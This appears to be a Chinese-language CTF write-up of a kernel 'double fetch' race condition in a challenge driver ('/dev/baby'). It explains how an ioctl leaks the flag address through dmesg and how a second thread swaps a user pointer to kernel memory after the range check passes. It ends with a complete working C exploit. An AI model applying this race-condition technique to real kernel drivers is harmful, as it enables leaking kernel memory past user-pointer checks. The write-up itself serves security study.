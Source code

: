 # kernel double fetch 

[[toc]]

## double fetch

就是在多线程的操作系统中，对某个操作没有加锁的话，会出现在运行时被另一个线程修改了内存的情况。



## 漏洞

这个程序基本上关键的位置就是这个函数：

ioctl其实就对应这个函数。

然后flag直接写在这个驱动内存中。通过`ioctl(fd, 0x6666)`可以得到flag地址，

然后通过`ioctl(fd, 0x1337, flag_struct)`可以传入一个 `flag_struct`结构体，可以看出大致如下

![image-20220214215747380](https://s2.loli.net/2022/02/14/m4DixfbGuQ7olhr.png)

![image-20220214215933113](https://s2.loli.net/2022/02/14/zO2ogvyen3ZGkDJ.png)

其实最开始想爆破来着，但是好像没啥判断依据，不太可行。

然后我们可以看到后面直接比较的位置，还有个`check_range_not_ok`， 传入三个参数， 其实就是比较 `a1+a2 < a3`的时候才可以进入flag比较的逻辑。

![image-20220214220324060](https://s2.loli.net/2022/02/14/C6s1DBHnb5VP39h.png)

然后在调试中可以看到这个值， 0x00007ffffffff000, 其实是在比较不允许出现在内核态，即这个传入的数据必须要在用户态。

![image-20220214220639438](/Users/wlz/Library/Application%20Support/typora-user-images/image-20220214220639438.png)

于是想到， 如果这个`flag_strut.flag`指向驱动中的flag地址， 可以通过那个比较，

于是我们使用条件竞争完成这个操作，

首先这个`flag_struct`位于用户代码段，而且为全局变量，通过两个线程修改他。

一个线程传入数据`flag_struct.flag = user_flag`， 是可以通过判断的，

一个进程，在通过判断后修改`flag_struct.flag = driver_flag`， 修改为驱动内的flag地址，

因为进程一直进行切换，所以两个进程都运行在while中，一直尝试修改。

## 利用

```c
#include <stdio.h>
#include <fcntl.h>
#include <stdlib.h>
#include <pthread.h>
#include <string.h>

struct flag_struct {
    char * flag;
    int size;
};


typedef unsigned long long uint64;

struct flag_struct flag;
char flag_buf[33];
uint64 flag_addr;

#define LEN 0x100
char buf[LEN+1] = {0};


int ret = 1;
void set_flag_buf(){
    while (ret){
        flag.flag = flag_addr;
    }
}



int main(){
    int fd = open("/dev/baby", O_RDONLY);
    if (fd < 0){
        printf("open /dev/baby error!\n");
        exit(-1);
    }

    memset(flag_buf, 'a', 33);
    ioctl(fd, 0x6666, &flag);
    system("dmesg | grep flag > /tmp/record.txt");

    int addr_fd = open("/tmp/record.txt", O_RDONLY);
    read(addr_fd, buf, LEN);
    close(addr_fd);

    char *idx = strstr(buf, "Your flag is at ");


    if (idx == 0){
        printf("%s\n", buf);
        printf("error not flag addr\n");
        exit(-1);
    } else {
        idx+= strlen("Your flag is at ");
        flag_addr = strtoull(idx, idx+16, 16);
    }
    printf("flag addr %llx", flag_addr);

    pthread_t tid; 
    pthread_create(&tid, NULL, set_flag_buf, NULL);

    while(ret){
        flag.flag = flag_buf;
        flag.size = 33;
        ret = ioctl(fd, 0x1337, &flag);
    }

    
    system("dmesg | grep -A 3 flag");


    return 0;
}

```


